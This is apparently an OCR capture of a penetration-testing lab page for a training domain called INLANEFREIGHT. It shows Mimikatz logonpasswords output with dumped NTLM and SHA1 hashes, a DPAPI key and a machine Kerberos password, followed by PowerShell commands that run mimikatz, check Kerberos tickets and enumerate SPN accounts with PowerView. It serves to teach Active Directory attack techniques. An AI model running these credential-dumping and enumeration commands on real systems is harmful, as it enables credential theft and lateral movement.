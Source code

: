 ```
Logon Server      : (null)
Logon Time        : 6/28/2022 3:33:32 PM
SID               : S-1-5-96-0-1
        msv :
         [00000003] Primary
         * Username : DEV01$
         * Domain   : INLANEFREIGHT
         * NTLM     : ef6a3c65945643fbd1c3cf7639278b33
         * SHA1     : a2cfa43b1d8224fc44cc629d4dc167372f81543f
        tspkg :
        wdigest :
         * Username : DEV01$
         * Domain   : INLANEFREIGHT
         * Password : (null)
        kerberos :
         * Username : DEV01$
         * Domain   : INLANEFREIGHT.LOCAL
         * Password : fb ec 60 8b 93 99 ee 24 a1 dd bf fa a8 da fd 61 cc 14 5c 30 ea 6a e9 f4 bb bc ca 1f be a7 9e ce 8b 79 d8 cb 4d 65 d3 42 e7 a1 98 ad 8e 43 3e b5 77 80 40 c4 ce 61 27 90 37 dc d8 62 e1 77 7a 48 2d b2 d8 9f 4b b8 7a be e8 a4 20 3b 1e 32 67 a6 21 4a b8 e3 ac 01 00 d2 c3 68 37 fd ad e3 09 d7 f1 15 0d 52 ce fb 6d 15 8d b3 c8 c1 a3 c1 82 54 11 f9 5f 21 94 bb cb f7 cc 29 ba 3c c9 5d 5d 41 50 89 ea 79 38 f3 f2 3f 64 49 8a b0 83 b4 33 1b 59 67 9e b2 d1 d3 76 99 3c ae 5c 7c b7 1f 0d d5 fb cc f9 e2 67 33 06 fe 08 b5 16 c6 a5 c0 26 e0 30 af 37 28 5e 3b 0e 72 b8 88 7f 92 09 2e c4 2a 10 e5 0d f4 85 e7 53 5f 9c 43 13 90 61 62 97 72 bf bf 81 36 c0 6f 0f 4e 48 38 b8 c4 ca f8 ac e0 73 1c 2d 18 ee ed 8f 55 4d 73 33 a4 fa 32 94 a9
        ssp :
        credman :

Authentication Id : 0 ; 1284107 (00000000:0013980b)
Session           : Interactive from 1
User Name         : srvadmin
Domain            : INLANEFREIGHT
Logon Server      : DC01
Logon Time        : 6/28/2022 3:46:05 PM
SID               : S-1-5-21-1666128402-2659679066-1433032234-1107
        msv :
         [00000003] Primary
         * Username : srvadmin
         * Domain   : INLANEFREIGHT
         * NTLM     : cf3a5525ee9414229e66279623ed5c58
         * SHA1     : 3c7374127c9a60f9e5b28d3a343eb7ac972367b2
         * DPAPI    : 64fa83034ef8a3a9b52c1861ac390bce
        tspkg :
        wdigest :
         * Username : srvadmin
         * Domain   : INLANEFREIGHT
         * Password : (null)
        kerberos :
         * Username : srvadmin
         * Domain   : INLANEFREIGHT.LOCAL
         * Password : (null)
        ssp :
        credman :

Authentication Id : 0 ; 70669 (00000000:0001140d)
Session           : Interactive from 1
User Name         : DWM-1
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 6/28/2022 3:33:33 PM
SID               : S-1-5-90-0-1
        msv :
         [00000003] Primary
```

[DEV01]: PS C:\Users\backupadm\Documents> cd 'C:\Users\Public\'
[DEV01]: PS C:\Users\Public> .\mimikatz "privilege::debug" "sekurlsa::logonpasswords" exit
[DEV01]: PS C:\Users\Public> tasklist /V |findstr backupadm
[ACADEMY-AEN-DEV01.INLANEFREIGHT.LOCAL]: PS C:\Users\backupadm\Documents> klist
[ACADEMY-AEN-DEV01.INLANEFREIGHT.LOCAL]: PS C:\Users\backupadm\Documents> Import-Module .\PowerView.ps1
[ACADEMY-AEN-DEV01.INLANEFREIGHT.LOCAL]: PS C:\Users\backupadm\Documents> get-domainuser -spn | select samaccountname
[DEV01]: PS C:\Users\backupadm\Documents> klist
[DEV01]: PS C:\Users\Public> get-domainuser -spn | select samaccountname